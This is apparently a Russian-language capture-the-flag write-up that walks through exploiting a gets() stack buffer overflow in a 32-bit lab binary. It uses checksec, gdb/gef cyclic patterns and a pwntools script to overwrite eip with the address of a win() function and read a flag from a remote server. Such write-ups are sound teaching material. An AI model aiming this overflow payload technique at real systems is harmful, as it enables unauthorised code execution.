 # Анализ файла
Итак нам даны 2 файла - task.elf и task.c . Для начала нужно понять методы защиты для файла, для этого можно использовать утилиту `checksec`


![](screenshot/1.png)

Итак, мы видим что все методы защиты отключены. Теперь можно перейти к анализу исходного кода в файле `task.c`

Vs сразу видим функцию `win` которая явно выводит флаг. Но она нигде не вызывается, так что нужно как заставить код ее исполнить
```C
void win() {
    FILE *file;
    char buffer[256]; // Буфер для чтения данных

    // Открытие файла FLAG.MD для чтения
    file = fopen("FLAG.MD", "r");
    if (file == NULL) {
        printf("Ошибка: не удалось открыть файл FLAG.MD\n");
        return;
    }

    // Чтение строки из файла и вывод её на экран
    while (fgets(buffer, sizeof(buffer), file) != NULL) {
        printf("%s", buffer);
    }

    // Закрытие файла
    fclose(file);
}

```


В файле полно функций, но после анализа, можно заметить, что данные пользователя мы получаем используя функцию `gets` . Если выйти в интернет с этим вопросом, можно увидеть, что везьде функция считается не безопасной, т.к не проверяет длинну ввода данных. Вот оно, наша уязвимая функция, любезно предоставленная разработчиками C . 

# Эксплуатация

После того как мы нашли уязвимость, нужно доказать, что ее можно проэксплуатировать. Для этого подадим большой объем данных в функцию

![](screenshot/2.png)

Бинго. Но что бы вызвать функцию `win` этого мало. (*В дальшейшем предполагается что вы уже знакомы со структурой стека в памяти. Если нет -  вот хорошая [статья](https://www.scaler.in/what-is-stack-organization/)*)

Что бы определить, сколько именно символов нужно что бы перезаписать `eip`(регистр хранящий адресс возврата),  можно использовать gdb+[gef](https://github.com/hugsy/gef) , а так же команду `cyclic` генерирующую строку-паттер

```bash
gdb task
shell cyclic 200

```

![](screenshot/3.png)


далее получившийся паттер передаем в функцию, и вводим команду `pattern search <значение регистра eip>`

![](screenshot/4.png)

![](screenshot/5.png)

Итак, теперь у нас есть число символов, до регистра eip. это значит, что начиная с 77 символа нам нужно передать адрес функции `win` . Узнать его просто - ввести в gdb команду `info function win`

![](screenshot/6.png) 

Когда у нас есть адрес и смещение, мы можно начать писать payload. Мы будем использовать библиотеку `pwntools` для python.

Для начала сфолрмируем payload. Он будет состоять из 76 символов(каких нее важно, я буду использовать `A`) и адреса. Однако просто ввести адрес не получится, нужно адаптировать его для формата `little-endian` . Для этого мы будем использовать функциюб `p32` из библиотеку `pwntools` 

```python
payload = b"A"*76 + p32(0x080491e6)
```


Итак когда payload готов, осталось отправить его на nc сервер, и считать флаг. Все функции для этого так же есть в `pwntools`


```python3
p = remote(host, port)      
log.info(p.recvS())        
p.sendline(payload)         
log.success(p.recvallS())  
p.close()                  
```

тиеперь собираем эксплойт и запускаем


![](screenshot/7.png) 

Вуаля, мы получили флаг


